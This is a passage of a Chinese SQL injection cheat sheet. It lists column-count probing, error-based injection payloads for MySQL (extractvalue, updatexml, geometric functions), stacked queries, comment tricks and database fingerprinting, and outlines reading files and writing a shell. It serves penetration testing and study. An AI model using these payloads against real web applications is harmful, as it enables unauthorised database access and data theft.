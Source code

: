 ####  4. 测试列数
例如 `http://www.foo.com/index.asp?id=12+union+select+null,null--` ，不断增加 `null` 至不返回

#### 5. 报错注入
- `select 1/0`
- `select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from  information_schema.tables group by x)a`
- `extractvalue(1, concat(0x5c,(select user())))`
- `updatexml(0x3a,concat(1,(select user())),1)`
- `exp(~(SELECT * from(select user())a))`
- `ST_LatFromGeoHash((select * from(select * from(select user())a)b))`
- `GTID_SUBSET(version(), 1)`

##### 1. 基于geometric的报错注入
- `GeometryCollection((select * from (select * from(select user())a)b))`
- `polygon((select * from(select * from(select user())a)b))`
- `multipoint((select * from(select * from(select user())a)b))`
- `multilinestring((select * from(select * from(select user())a)b))`
- `LINESTRING((select * from(select * from(select user())a)b))`
- `multipolygon((select * from(select * from(select user())a)b))`

其中需要注意的是，基于exp函数的报错注入在MySQL 5.5.49后的版本已经不再生效，具体可以参考这个 [commit 95825f](https://github.com/mysql/mysql-server/commit/95825fa28a7e84a2f5dbdef5241078f7055c5b04) 。

而以上列表中基于geometric的报错注入在这个 [commit 5caea4](https://github.com/mysql/mysql-server/commit/5caea4a995130cd7c82574acc591ff7c46d9d978) 中被修复，在5.5.x较后的版本中同样不再生效。

#### 6. 堆叠注入
- `;select 1`
#### 7. 注释符
- `#`
- `--+`
- `/*xxx*/`
- `/*!xxx*/`
- `/*!50000xxx*/`

#### 8. 判断过滤规则
- 是否有trunc
- 是否过滤某个字符
- 是否过滤关键字
- slash和编码

#### 9. 获取信息
- 判断数据库类型
  - `and exists (select * from msysobjects ) > 0` access数据库
  - `and exists (select * from sysobjects ) > 0` SQLServer数据库
- 判断数据库表
  - `and exsits (select * from admin)`
- 版本、主机名、用户名、库名
- 表和字段
  - 确定字段数
    - Order By
    - Select Into
  - 表名、列名
#### 10.  测试权限
- 文件操作
  - 读敏感文件
  - 写shell
- 带外通道
  - 网络请求
  